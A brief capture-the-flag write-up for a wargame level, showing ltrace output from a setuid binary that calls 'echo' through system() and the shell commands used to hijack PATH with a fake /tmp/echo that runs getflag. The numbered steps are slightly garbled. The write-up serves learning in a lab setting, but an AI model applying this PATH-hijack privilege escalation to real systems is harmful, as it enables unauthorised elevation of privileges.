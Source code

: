 - When we entered to the level03 user, we found a executable file (level03).

- After exec this executable we got => “exploit me”.

- after get some infos with “ltrace level03” cmd:

  "\_\_libc_start_main(0x80484a4, 1, 0xbffff7a4, 0x8048510, 0x8048580 <unfinished ...>
  getegid() = 2003
  geteuid() = 2003
  setresgid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280) = 0
  setresuid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280) = 0
  system("/usr/bin/env echo Exploit me"Check flag.Here is your token :
  Nope there is no token here for you sorry. Try again :)
  <unfinished ...>
  --- SIGCHLD (Child exited) ---
  <... system resumed> ) = 0
  +++ exited (status 0) +++"

- We found that the program is running the echo command with system func

- So we created a executable file in /tmp with echo name and this file execute a “getflag” cmd,
  and added the /tmp folder to path environment variable.

1 --> echo "getflag"
2 --> /tmp/echo
3 --> chmod 777 /tmp/echo
4 --> export PATH=/tmp:$PATH

- We launch the level03 executable again, and we got the flag
